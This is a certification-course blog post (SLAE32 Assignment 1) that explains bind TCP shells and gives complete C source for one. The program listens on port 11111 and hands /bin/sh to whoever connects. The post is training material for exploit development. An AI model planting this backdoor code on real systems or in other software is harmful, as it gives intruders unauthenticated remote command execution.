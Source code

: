 ```yaml
---
title: SLAE32 - Assignment#1 [Bind TCP Shell]
author: bigb0ss
date: 2020-12-12 13:26:00 +0800
categories: [SLAE32]
tags: [slae32, assembly, x86, Bind TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1542

# Assignement #1 
* Create a Shell_Bind_TCP shellcode
	- Binds to a port
	- Execs Shell on incoming connection

* Port number should be easily configurable


# What is a Bind Shell?
Bind TCP opens up a port on the victim system. If an attacker could exploit a vulnerability on the victim system, she can implant a bind shell and connect to it from the remote attaking box. However, due to a firewall and detection controls, reverse TCP shell is preferrable over bind TCP shell thesedays.

![image](/assets/img/post/slae32/assignment1/01.png)

# Bind TCP Shell in C
Before creating our Bind TCP Shell in shellcode, we need to understand the Socket Programming. 

> **NOTE**: Socket programming is a way of connecting two nodes on a network to communicate with each other. 



let's better understand the Bind TCP in a higher programming language. We will use `C`:

```c++
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{

	int resultfd, sockfd;
	int port = 11111;
	struct sockaddr_in my_addr;

	// syscall 102
	// int socketcall(int call, unsigned long *args);

	// sycall socketcall (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// syscall socketcall (sys_setsockopt 14)
        int one = 1;
        setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

	// set struct values
	my_addr.sin_family = AF_INET; // 2
	my_addr.sin_port = htons(port);
	my_addr.sin_addr.s_addr = INADDR_ANY;

	// syscall socketcall (sys_bind 2)
	bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));

	// syscall socketcall (sys_listen 4)
	listen(sockfd, 0);

	// syscall socketcall (sys_accept 5)
	resultfd = accept(sockfd, NULL, NULL);

	// syscall 63
	dup2(resultfd, 2);
	dup2(resultfd, 1);
	dup2(resultfd, 0);

	// syscall 11
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```




















